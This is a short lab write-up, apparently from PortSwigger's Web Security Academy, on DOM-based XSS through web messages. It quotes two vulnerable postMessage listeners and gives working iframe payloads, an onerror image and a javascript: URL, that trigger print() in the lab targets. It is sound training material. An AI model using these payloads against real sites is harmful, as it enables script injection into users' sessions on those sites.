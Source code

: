 ## DOM XSS using web messages
We see in the webpage javascript there is the following event listener:
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
</script>
```

Staging the payload in the exploit server. 
```
<iframe src="https://0ae4003904d6f1f482f4e23200d20060.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print() >', '*')" >
```

## DOM XSS using web messages and a javascript URL
The page contains a sink in the form of a message event listener:
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>              
```
Stage an exploit on a page that the user visits.
The iframe loads the target site and calls contextWindow.postMessage to trigger the event listener.
The message includes javascript for any (*) target origin
```
<iframe src="https://0a27003803718cf18050940e007f00d6.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```